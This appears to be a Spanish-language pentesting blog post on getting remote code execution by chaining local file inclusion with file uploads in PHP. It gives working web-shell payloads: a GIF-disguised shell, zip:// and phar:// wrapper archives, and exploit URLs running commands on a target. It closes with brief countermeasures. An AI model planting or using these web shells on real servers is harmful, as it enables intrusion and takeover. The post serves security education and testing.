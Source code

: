 ```yaml
---
layout: post
title: "LFI y Subida de Archivos: Explotando Vulnerabilidades de Inclusión Local"
date: 2025-06-08 10:00:00 -0600
categories: [Web Security, Pentesting]
tags: [LFI, file-upload, php, web-shells, penetration-testing]
image: /assets/img/posts/lfi-file-upload/lfi-banner.png 
---
```


La **inclusión local de archivos (LFI)** combinada con funcionalidades de subida de archivos representa una de las técnicas más efectivas para lograr **ejecución remota de código (RCE)** en aplicaciones web. En este post exploraremos diferentes métodos para explotar estas vulnerabilidades.

---

## Introducción a LFI y Subida de Archivos

Las funcionalidades de subida de archivos son omnipresentes en las aplicaciones web modernas, ya que los usuarios normalmente necesitan configurar sus perfiles y el uso de la aplicación web subiendo sus datos. Para los atacantes, la capacidad de almacenar archivos en el servidor back-end puede extender la explotación de muchas vulnerabilidades, como las vulnerabilidades de inclusión de archivos.

---

### Funciones Vulnerables por Lenguaje

Para que este ataque funcione, la función vulnerable debe tener capacidades de **ejecución de código**. Las siguientes funciones permiten ejecutar código con inclusión de archivos:

| Lenguaje | Función | Leer Contenido | Ejecutar | URL Remota |
|----------|---------|----------------|----------|------------|
| **PHP** | `include()/include_once()` | ✅ | ✅ | ✅ |
| **PHP** | `require()/require_once()` | ✅ | ✅ | ❌ |
| **NodeJS** | `res.render()` | ✅ | ✅ | ❌ |
| **Java** | `import` | ✅ | ✅ | ✅ |
| **.NET** | `include` | ✅ | ✅ | ✅ |

---

## Método 1: Subida de Imagen Maliciosa

### Creando la Imagen Maliciosa

El primer paso es crear una imagen maliciosa que contenga código PHP web shell pero que aún parezca y funcione como una imagen normal.

```bash
echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```

> **Nota:** Utilizamos una imagen GIF porque sus magic bytes son fácilmente tipeables (caracteres ASCII), mientras que otras extensiones tienen magic bytes en binario que necesitarían ser URL encoded.

### Subiendo el Archivo

Una vez creado nuestro archivo malicioso, necesitamos subirlo a la aplicación web. Típicamente esto se hace a través de formularios de perfil o configuración.

### Obteniendo la Ruta del Archivo

Después de subir nuestro archivo, necesitamos conocer la ruta donde se almacenó. En la mayoría de casos, especialmente con imágenes, podemos obtener acceso a nuestro archivo y conseguir su ruta desde su URL.

```html
<img src="/profile_images/shell.gif" class="profile-image" id="profile-image">
```

### Explotación

Con la ruta del archivo en mano, solo necesitamos incluir el archivo subido en la función vulnerable LFI:

```
http://target.com/vulnerable.php?file=./profile_images/shell.gif&cmd=id
```

---

## Método 2: Wrapper ZIP

### Creando el Archivo ZIP

Esta técnica utiliza los wrappers de PHP para ejecutar código PHP. Aunque este wrapper no está habilitado por defecto, puede funcionar en ciertos casos específicos.

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
zip shell.jpg shell.php
```

### Explotación con Wrapper ZIP

Una vez subido el archivo shell.jpg, podemos incluirlo usando el wrapper `zip://` y referenciar archivos dentro de él con `#`:

```
http://target.com/vulnerable.php?file=zip://./profile_images/shell.jpg%23shell.php&cmd=id
```

---

## Método 3: Wrapper PHAR

### Creando el Archivo PHAR

El wrapper `phar://` ofrece otra alternativa para lograr ejecución de código. Primero creamos un script PHP:

```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');
$phar->stopBuffering();
?>
```

### Compilación y Preparación

```bash
php --define phar.readonly=0 shell.php
mv shell.phar shell.jpg
```


### Explotación con PHAR

```
http://target.com/vulnerable.php?file=phar://./profile_images/shell.jpg/shell.txt&cmd=id
```

---

## Contramedidas y Prevención

### Validación Estricta
- Validar tanto la extensión como el contenido del archivo
- Implementar lista blanca de tipos MIME permitidos
- Verificar magic bytes de archivos

### Aislamiento de Archivos
- Almacenar archivos subidos fuera del directorio web
- Usar directorios con permisos restrictivos
- Implementar naming schemes aleatorios

### Sanitización de Entradas
- Validar y sanitizar todas las entradas del usuario
- Usar rutas absolutas en lugar de relativas
- Implementar controles de acceso adecuados

---

## Conclusiones

La combinación de vulnerabilidades LFI con funcionalidades de subida de archivos puede resultar en **ejecución remota de código**, incluso cuando la funcionalidad de subida no es vulnerable por sí misma. El **primer método** (imagen maliciosa) es el más confiable y debería funcionar en la mayoría de casos con la mayoría de frameworks web.

Los métodos de **ZIP** y **PHAR** deben considerarse como alternativas cuando el primer método no funciona, ya que requieren configuraciones específicas de PHP.

> **Importante:** Existe otro ataque LFI/uploads obsoleto que puede ocurrir si la subida de archivos está habilitada en las configuraciones de PHP y la página phpinfo() está expuesta. Sin embargo, este ataque no es muy común ya que tiene requisitos muy específicos (LFI + uploads habilitados + PHP antiguo + phpinfo() expuesto).

---

### Referencias

- [OWASP File Upload Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html)
- [PHP Wrappers Documentation](https://www.php.net/manual/en/wrappers.php)
- [Local File Inclusion Techniques](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion)